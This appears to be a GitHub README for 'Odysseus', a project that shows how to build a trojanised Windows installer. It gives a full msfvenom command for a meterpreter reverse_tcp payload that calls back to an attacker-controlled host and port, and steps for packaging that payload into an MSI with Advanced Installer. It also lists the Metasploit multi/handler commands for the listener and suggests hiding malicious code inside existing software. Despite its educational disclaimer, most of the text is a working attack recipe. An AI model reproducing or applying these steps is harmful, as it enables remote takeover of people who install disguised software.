 ```
 _____ ______ __   __ _____  _____  _____  _   _  _____ 
|  _  ||  _  \\ \ / //  ___|/  ___||  ___|| | | |/  ___|
| | | || | | | \ V / \ `--. \ `--. | |__  | | | |\ `--. 
| | | || | | |  \ /   `--. \ `--. \|  __| | | | | `--. \
\ \_/ /| |/ /   | |  /\__/ //\__/ /| |___ | |_| |/\__/ /
 \___/ |___/    \_/  \____/ \____/ \____/  \___/ \____/ 
                                                        
                                                        
```

# Odysseus

## Overview

The Odysseus project demonstrates the integration of `msfvenom` and `Advanced Installer` to create a software package with embedded payloads. This guide outlines the process of generating a malicious `.exe` with `msfvenom` and then packaging it into an installer using `Advanced Installer`.

**Important:** This project is intended for educational and ethical use only. Always ensure that you have explicit permission before using or demonstrating any tools or techniques that could potentially be harmful.

## Features

- Creation of a malicious `.exe` file using `msfvenom`.
- Packaging of the `.exe` file into an installer using `Advanced Installer`.
- Detailed instructions and screenshots for each step.

## Prerequisites

Before you start, ensure you have the following tools installed:

- [Metasploit Framework](https://metasploit.help.rapid7.com/docs/installing-the-metasploit-framework)
- [Advanced Installer](https://www.advancedinstaller.com/)
- [UPX](https://upx.github.io/) (optional for executable packing)

## Installation and Setup

### 1. Clone the Repository

Start by cloning the repository to your local machine:

```bash
git clone https://github.com/imnopro/Odysseus.git
cd Odysseus
```

### 2. Generate the Malicious .exe
Use msfvenom to create a malicious .exe payload. Replace LHOST and LPORT with your local IP address and port.

``` bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.9 LPORT=9002 -f exe -o payload.exe
```


### 3. Package the Payload with Advanced Installer

   -Open Advanced Installer:

   -Launch Advanced Installer and create a new project or open an existing one.

   -Add the Payload:

   -Navigate to the "Files and Folders" section. Add the payload.exe file to the desired location in the installer.

   -Configure Installation Settings:

   -Set the install location and other configuration settings as needed.

   -Build the Installer:

   -Click "Build" to generate the MSI installer.





   ## Running the Demonstration

### Start the Listener:

-Use Metasploit to listen for connections.

``` bash
msfconsole
use exploit multi/handler
set LHOST
set LPORT
set payload windows/x64/meterpreter/reverse_tcp
```

### Install the MSI:

Install the MSI package on a test machine to execute the payload, and then run the .exe to test functionality.


### Closing Remarks

##### As always, please use this responsibly. I am not responsible for what you do with this code, and please make sure to use on systems you have authority to audit and test. While this is a simple Reverse shell, you can also build in other exe files, and potentially use existing pieces of software to hide your malicious code. Happy Hacking!
